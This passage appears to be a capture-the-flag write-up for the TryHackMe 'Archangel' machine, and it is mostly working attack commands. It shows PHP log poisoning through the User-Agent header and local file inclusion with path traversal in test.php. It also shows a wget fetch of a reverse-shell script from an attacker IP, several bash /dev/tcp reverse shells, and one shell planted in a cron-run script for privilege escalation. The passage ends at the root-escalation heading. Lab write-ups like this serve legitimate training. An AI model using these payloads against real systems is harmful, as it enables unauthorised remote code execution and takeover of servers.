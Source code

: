 Let's use the following user agent :

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.6.32.20/8888 0>&1'"); ?>
```

Hmm something went wrong here... Can't see the access 

Soo, after a while of playing around with this, I got it right. To inject the command parameter :

```bash
curl -H 'User-Agent: <?php echo passthru($_GET[pwn]); ?>' mafialive.thm/pwn
```

We create a reverse shell script

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.6.32.20/8888 0>&1
```

We upload the script with

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././var/log/apache2/access.log&pwn=wget%2010.6.32.20:8000/revshell.sh -O /dev/shm/revshell.sh
```

We then execute with 

```
mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././var/log/apache2/access.log&pwn=bash /dev/shm/revshell.sh
```

And we finally got a shell !

## www-data user

Again (for completness) we find the user flag in `/home/archangel/user.txt`

```
thm{lf1_t0_rc3_1s_tr1cky}
```

Now, previously we found that a cronjob running `/opt/helloworld.sh` is runned as `archangel` user

The file is editable, we can create another revshell i guess

```
bash -i >& /dev/tcp/10.6.32.20/7777 0>&1
```

We wait a bit and we get a shell as archangel

```
uid=1001(archangel) gid=1001(archangel) groups=1001(archangel)
```



## Archangel User / Getting root
